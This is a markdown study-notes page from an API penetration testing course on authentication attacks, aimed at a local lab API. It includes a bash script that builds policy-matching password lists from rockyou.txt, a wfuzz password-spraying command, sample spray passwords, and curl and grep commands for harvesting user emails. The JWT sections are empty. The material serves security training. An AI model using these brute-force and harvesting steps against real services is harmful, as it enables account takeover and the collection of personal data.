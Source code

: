 # Authentication Attacks  

>[Introduction to Authentication Attacks](https://university.apisec.ai/products/api-penetration-testing/categories/2150251352/posts/2161556362)  

## Classic Authentication Attacks  

>[Classic Authentication Attacks](https://university.apisec.ai/products/api-penetration-testing/categories/2150251352/posts/2157505645)  

>Password Brute-Force Attacks  

>Information about creating targeted password lists:  

* [Mentalist](https://github.com/sc0tfree/mentalist)  
* [Common User Passwords Profiler](https://github.com/Mebus/cupp)  

>Get words matching complex password policy of target, bash script:  

```bash
#!/bin/bash

# Input and output file names
input_file="/usr/share/wordlists/rockyou.txt"
output_file="complex-passwords-uniq-sorted-0955.txt"
temp_file="temp-results.txt"

# Set locale to C to avoid issues with multibyte characters in rockyou.txt
export LC_ALL=C

# Clear the temp file if it already exists to avoid duplicate entries
> "$temp_file"

# Use awk to match words that meet all specified conditions and append to temp file
awk '{
  for (i = 1; i <= NF; i++) {
    word = $i
    if (length(word) >= 8 && 
        word ~ /[A-Z]/ && 
        word ~ /[a-z]/ && 
        word ~ /[0-9]/ && 
        word ~ /[!@#$%^&*()_+{}\[\]:;<>,.?~\\/-]/) {
      print word >> "'"$temp_file"'"
    }
  }
}' "$input_file"

# Append sorted unique words from temp file to output file without overwriting
sort "$temp_file" | uniq >> "$output_file"

# Remove duplicate lines in output file to ensure all entries are unique
sort -u "$output_file" -o "$output_file"

# Remove the temporary file after processing
rm "$temp_file"

# Output message
echo "Unique sorted words matching the complex password policy conditions saved to $output_file."
```  

>Password Spraying, using `wfuzz` against the API web application endpoint:  

```
wfuzz -d '{"email":"a@email.com","password":"FUZZ"}' -H 'Content-Type: application/json' -z file,/usr/share/wordlists/rockyou.txt -u http://127.0.0.1:8888/identity/api/auth/login --hc 405
```  

>The `--hc` option hides responses with certain response codes. 
>`–hc` option helps you filter out the responses you don’t want to see.  
>The `-H` option add a header to the request. API respond with an HTTP 415 Unsupported Media Type error, if you don’t include the `Content-Type:application/json` header.  

>Sample of passwords to be used during password spray attack:  

```
QWER!@#$
Password1!
Winter2021!
Spring2021?
Fall2021!
Autumn2021?
Summer2022!
Spring2022!
QWER!@#$
March212006!
July152006!
Twitter@2022
JPD1976!
Dorsey@2022
```  

>Extract emails, with regular expressions to pull emails from the saved JSON response.  

>If the output in Burp is too large for the response window, then copy the request into `curl` command and save output to `response.json`  

```bash
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Host: 127.0.0.1:8888' -H $'sec-ch-ua-platform: \"Linux\"' -H $'Authorization: Bearer eyJhbGciOiJSUzI1NiJ9.eyJzdWIiOiJ0ZXN0MUB0ZXN0LmNvbSIsImlhdCI6MTczMDI3NjkyNCwiZXhwIjoxNzMwODgxNzI0LCJyb2xlIjoidXNlciJ9.ZWyuFqX5-mkyY4i-Iiwk8lnHWR_TJmw0wEOuhODqyRce94JSAc6BdZaDAr6V5QfQpeBJ3LL6rx3e46hRGf2_0CEtHanSvpMqRvxRLMhsgXqkylczWVG1rMEU6tC_4mK3WTx7JeGRsJGBcCaehbAO23f6Vw5s4uVhTGvracy-mO_Qc89nJBdm37S2SVpUfZtgMV_PceIExlg_ZVFJi9xA4ARtaUp8Edh_Q6vO9CePllB_77j7FsbXa1hEa1-bnY1AO2muBMYUEweptjsy30WGWfIm-YsaVy4pM4Ttvjx5LlFTXqTUiXvIJwL9_kiic2rQbsq6ZFJKlV0YSjT3vEXC9A' -H $'Accept-Language: en-US,en;q=0.9' -H $'sec-ch-ua: \"Not?A_Brand\";v=\"99\", \"Chromium\";v=\"130\"' -H $'Content-Type: application/json' -H $'sec-ch-ua-mobile: ?0' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.59 Safari/537.36' -H $'Accept: */*' -H $'Sec-Fetch-Site: same-origin' -H $'Sec-Fetch-Mode: cors' -H $'Sec-Fetch-Dest: empty' -H $'Referer: http://127.0.0.1:8888/forum' -H $'Accept-Encoding: gzip, deflate, br' -H $'Connection: keep-alive' \
    $'http://127.0.0.1:8888/community/api/v2/community/posts/recent?limit=30&offset=0' > response.json
```  

>Get email values from response file using grep:  

```
grep -oe "[a-zA-Z0-9._]\+@[a-zA-Z]\+.[a-zA-Z]\+" response.json
```  

>Note on Base64 Encoding  

>Using Burp Suite Professional, ***Payloads*** window add a `Payload processing` rule.  
>Select `Add > Encoded > Base64-encode` and then click OK.  

----  

## API Token Attacks  

>[API Token Attacks - API Authentication Attacks](https://university.apisec.ai/products/api-penetration-testing/categories/2150251352/posts/2157505646)  

### Token Analysis  

>

### JWT Attacks  

>

### Automating JWT attacks with JWT_Tool  

>
